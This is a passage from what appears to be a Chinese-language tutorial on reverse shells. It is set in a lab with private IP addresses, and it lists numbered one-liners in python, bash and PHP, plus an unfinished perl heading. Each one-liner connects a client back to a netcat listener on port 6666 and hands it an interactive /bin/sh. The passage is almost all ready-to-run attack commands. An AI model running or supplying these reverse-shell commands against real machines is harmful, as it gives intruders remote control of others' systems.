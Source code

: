 ![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3ta825IaQbIXLB5nfyldvls48miaHBUZvaYFHEETxxDrAXDOKIXMLMpqg/640?wx_fmt=png)

  

在客户端执行以下 python 脚本，反弹 shell：

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.2.12",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3tOOTgIPrcGiculXJPfq4YL1hnZgpKUclfv068C50BssVWQzKcokM53HA/640?wx_fmt=png)

  

（11）bash 反弹 shell

服务端监听本地 6666 端口：

```
nc -lvp 6666

```

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3tutvCdXlHK931NF8wqMTS9AzmfZYicI5TRH2ZOxWhDuC3hWrRvs2ZDhQ/640?wx_fmt=png)

  

客户端（192.168.2.7）执行 bash 命令反弹 shell 给服务端（192.168.2.12）：

```
bash -i >& /dev/tcp/192.168.2.12/6666 0>&1

```

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3twnrjgp0b8CCzQhQRA06cD52LegoHCQkzWEj6nibGVYqTS7ou5vBCyTQ/640?wx_fmt=png)

  

（12）PHP 反弹 shell

服务端监听本地端口 6666：

```
nc -lvp 6666

```

客户端执行命令反弹 shell 给服务端：

```
php -r '$sock=fsockopen("192.168.2.12",6666);exec("/bin/sh -i <&3 >&3 2>&3");'

```

（13）perl 反弹 shell

服务端监听本地端口 6666：

```
nc -lvp 6666

```

